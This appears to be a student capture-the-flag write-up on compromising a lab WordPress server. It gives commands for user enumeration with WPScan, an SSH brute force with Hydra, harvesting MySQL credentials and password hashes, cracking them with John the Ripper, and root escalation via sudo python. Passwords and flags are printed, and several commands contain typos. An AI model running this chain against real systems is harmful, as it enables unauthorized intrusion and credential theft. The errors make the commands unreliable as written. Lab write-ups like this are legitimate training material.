



# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (port 22)
  - HTTP (port 80)
  - Rpcbind (port 111)
  - Netbios-ssn (ports 139 and 445)

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (Wordpress Website)
  - Weak password/usernames (CWE-521)
  - Brute Force SSH to gain access to system
  - Unsalted password hash and privilege escalation with Python (CWE-328)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - - WPScan to enumerate users on the Target1 Wordpress website. - $ wpscan --url 192.168.1.110/wordpress - $ wpscan --url 192.168.1.110 --enumerate -u

  
  - It was known the user's password was weak and obvious. It was guessed before any commands were used but for practice, we used Hydra to crack Michael's password.
  - Command: hydra -l michael -p /usr/sahre/wordlists/rockyou.txt -vV 192.16.1.110 -t 4 ssh

  - flag1 was found in /var/www/html folder after searching through each file in the directory. The flag1 was found in the service.html in an HTML comment near the bottom of the HTML file.

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Manaully brute forced Michael's password, and also used Hydra for good measure. His password (password: michael) was weak and easily guessable. This allowed us to SSH into his machine and find flag2. The steps to find the second flag were similar to when we found flag1.
      - flag2 was discovered in /var/www next to a directory named "html"
        - Commands:
          - ssh michael@192.168.1.110
          - password: michael
          - cd /var/www
          - ls -l
          - cat flag2.txt

  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Same exploits as flag1 and flag2.
      - Once in Michael's system, we captured flag3.txt by accessing the MYSQL database
      - After searching through wp-config.php, we had access to his MYSQL database login credentials and were able to further explore the database.

      - Commands:
        - mysql -u root -p
        - We were then prompted for a password, which is 'R@v3nSecurity'
        - show databases;
        - use wordpress;
        - select * from wp_posts

  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Unsalted hash and privilege escalation with Python command.
      - For flag4, we cracked user Steven's password using John the Ripper, and looked at Stevens privileges using "sudo -l" ti find how we can escalte our privilege to root.
      - After getting access to the MYSQL database, we found the user's password hashes in the wp_users table. The password hashes were saved on the Kali machine in "wp_hashes.txt" for later use.
      - Commands:
      - mysql -u root -p
      - password: R@v3nSecurity
      - show databases
      - use wordpress;
      - show tables;
      - select * from wp_users;

    - The wp_hashes.txt file containing Steven's password hashes was cracked using John the Ripper. 
    - Command:
      - john wp_hashes.txt
      

    - After getting Stevens password, we could now SSH into the server as Steven.
       - Commands: 
         - ssh steven@192.168.1.110
         - password: pink84
         - sudo -l
         - Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - This Python command allowed us to be the "root@target1" user (Steven).
       - ls
       - cat flag4.txt

